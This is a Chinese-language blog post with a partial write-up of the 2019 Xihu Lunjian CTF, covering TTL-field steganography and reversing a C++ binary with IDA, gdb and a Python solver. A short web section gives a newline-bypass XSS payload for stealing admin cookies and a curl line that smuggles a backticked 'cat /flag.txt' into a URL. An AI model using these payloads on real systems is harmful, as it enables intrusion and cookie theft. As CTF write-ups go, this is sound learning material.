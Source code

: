 ```yaml
---
layout: post
title: "2019西湖论剑部分wp"
tags: [blog]
author: wqpw
---
```


web环境关了...  
第一个是储存型XSS，可以换行绕过过滤，然后打管理员cookie.

```html
<img src=x onerror
=alert(1)>
```

然后有一个无回显的命令执行，想到用curl

```shell
curl -X GET -i 'http://ip/index.php?`cat /flag.txt`
```

一个是简单的LFI漏洞利用.

还有一个是[.DS_Store泄露](https://github.com/lijiejie/ds_store_exp)和[.git泄露](https://github.com/lijiejie/GitHack)及zip已知明文攻击加[php伪随机数漏洞](https://www.openwall.com/php_mt_seed/).

还有一个[Google CTF](https://ctftime.org/writeup/10369)原题.

(其实搞出前两个...)

主要记下差点做出来的2个题.
[题目文件](/assets/1904055ca752dbcbdfe.zip)

## 奇怪的TTL字段

题目描述:

```text
我们截获了一些IP数据报，发现报文头中的TTL值特别可疑，怀疑是通信方嵌入了数据到TTL，我们将这些TTL值提取了出来，你能看出什么端倪吗？
```

![1](/assets/xhlj1.png)

统计后发现只有63,127,191,255四个数，**猜测对应00,01,10,11**.

处理好进行转换然后放16进制编辑器里，变成这样:

![2](/assets/xhlj2.png)

然后分析下这个新的文件，发现是六张图片.

![3](/assets/xhlj3.png)

然后再用foremost等工具处理一下，得到一张完整的图片.

![4](/assets/xhlj4.png)

扫码得到

`key:AutomaticKey cipher:fftu{2028mb39927wn1f96o6e12z03j58002p}`

用[http://rumkin.com/tools/cipher/vigenere-autokey.php](http://rumkin.com/tools/cipher/vigenere-autokey.php)输入key和密文得到flag.

![5](/assets/xhlj5.png)

## easyCpp

ida+f5看了看，用的全是标准库的函数，所以不难.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // r15
  __int64 v4; // rdx
  __int64 v5; // rdx
  __int64 v6; // rdx
  __int64 v7; // rdx
  __int64 v8; // r12
  __int64 v9; // rbx
  __int64 v10; // rax
  __int64 v11; // rdx
  __int64 v12; // rbx
  __int64 v13; // rax
  __int64 v14; // r8
  __int64 v15; // r9
  __int64 v16; // rbx
  char v17; // al
  unsigned int *v18; // rax
  const char **v20; // [rsp+0h] [rbp-190h]
  signed int i; // [rsp+1Ch] [rbp-174h]
  signed int j; // [rsp+20h] [rbp-170h]
  char v23; // [rsp+30h] [rbp-160h]
  char v24; // [rsp+50h] [rbp-140h]
  char v25; // [rsp+70h] [rbp-120h]
  char v26; // [rsp+90h] [rbp-100h]
  char v27; // [rsp+B0h] [rbp-E0h]
  __int64 v28; // [rsp+D0h] [rbp-C0h]
  __int64 v29; // [rsp+F0h] [rbp-A0h]
  char v30[72]; // [rsp+110h] [rbp-80h]
  unsigned __int64 v31; // [rsp+158h] [rbp-38h]

  v20 = argv;
  v31 = __readfsqword(0x28u);
  std::vector<int,std::allocator<int>>::vector(&v23, argv, envp);
  std::vector<int,std::allocator<int>>::vector(&v24, argv, v4);
  std::vector<int,std::allocator<int>>::vector(&v25, argv, v5);
  std::vector<int,std::allocator<int>>::vector(&v26, argv, v6);
  std::vector<int,std::allocator<int>>::vector(&v27, argv, v7);
  for ( i = 0; i <= 15; ++i )
  {
    scanf("%d", &v30[4 * i], v20);
    std::vector<int,std::allocator<int>>::push_back((__int64)&v24, (__int64)&v30[4 * i]);
  } //scanf读入16个数 在数组v[30]和vector v24中
  for ( j = 0; j <= 15; ++j )
  {
    LODWORD(v29) = fib(j);
    std::vector<int,std::allocator<int>>::push_back(&v23, &v29);
  } //v23存入前16个斐波拉契数
  std::vector<int,std::allocator<int>>::push_back((__int64)&v25, (__int64)v30); //v25.push_back(v30[0])
  v8 = std::back_inserter<std::vector<int,std::allocator<int>>>(&v25); //vector<int>::iterator v8 = &v25
  v9 = std::vector<int,std::allocator<int>>::end(&v24); //v9 = v24.end()
  v29 = std::vector<int,std::allocator<int>>::begin(&v24); //v29 = v24.begin()
  v10 = __gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>::operator+(&v29, 1LL); //v10 = v29+1
  std::transform<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::back_insert_iterator<std::vector<int,std::allocator<int>>>,main::{lambda(int)#1}>(
    v10, //从v24.begin() + 1
    v9, //到v24.end() 即从第二个到最后一个
    v8, //按push_back顺序存入v25
    (__int64)v30); //main::{lambda(int)#1}的参数之一 相当于对v24第二个到最后一个元素调用main::{lambda(int)#1}
/*
参考 https://blog.csdn.net/jerryjbiao/article/details/7523110
*/
......
```

transform调用的匿名函数:

```c++
__int64 __fastcall main::{lambda(int)#1}::operator() const(_DWORD **a1, int a2)
{
  return (unsigned int)(**a1 + a2); 
}
```

所以v24是{1,2,3,...,16}的话，现在v25就是{1,3,4,...,17}

接着是

```c++
  std::vector<int,std::allocator<int>>::vector(&v28, v9, v11);
  v12 = std::vector<int,std::allocator<int>>::end(&v25);
  v13 = std::vector<int,std::allocator<int>>::begin(&v25);
  std::accumulate<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::vector<int,std::allocator<int>>,main::{lambda(std::vector<int,std::allocator<int>>,int)#2}>(
    (__int64)&v29, // [rbp-A0h]
    v13, 
    v12, 
    (__int64)&v28,  
    v14,
    v15,
    v3);
```

看了很久也没看懂`accumulate`和`main::{lambda(std::vector<int,std::allocator<int>>,int)#2}`干了什么......

所以先看看后面的
```c++
  std::vector<int,std::allocator<int>>::operator=(&v26, &v29); //v26 = v29
  std::vector<int,std::allocator<int>>::~vector(&v29);
  std::vector<int,std::allocator<int>>::~vector(&v28);
  if ( (unsigned __int8)std::operator!=<int,std::allocator<int>>(&v26, &v23) )
  { //比较v26和v23(前16个斐波拉契数)是否全部相等
    puts("You failed!");
    exit(0);
  }
  //下面就是输出flag
  //略
```

所以尝试动态分析，研究v29发生了什么变化.

linux下用gdb加载程序，输入layout asm查看汇编代码，在调用accumulate的指令上下下断点.

![6](/assets/xhlj6.png)

然后运行并输入1-16，到断点1时查看v29

![7](/assets/xhlj7.png)

由前面可知`$rbp-0xa0`的值v29是v24.begin()的值，是地址.

然后执行accumulate之后:

![8](/assets/xhlj8.png)

可知是把transform后的v25反转一下.  
大概是这个意思reverse(v25.begin(),v25.end());v29=v25;  
然后v26=v29并且比较v26和v23.

综上，我们需要16个数，满足从第二个数到最后一个数加上第一个数然后反转之后与前16个斐波拉契数一一对应.

于是我们可以写个脚本算一下

```python
def fib(n):
    if n == 0 or n == 1:
        return 1
    return fib(n-2)+fib(n-1)

v23 = [fib(i) for i in range(0,16)][::-1]
v23[1:] = map(lambda x: x-v23[0], v23[1:])
print str(v23).replace(', ','\n')
```

结果正确

![9](/assets/xhlj9.png)

### 总结

七分逆向三分猜  
区分代码(人？编译器？)  
耐心
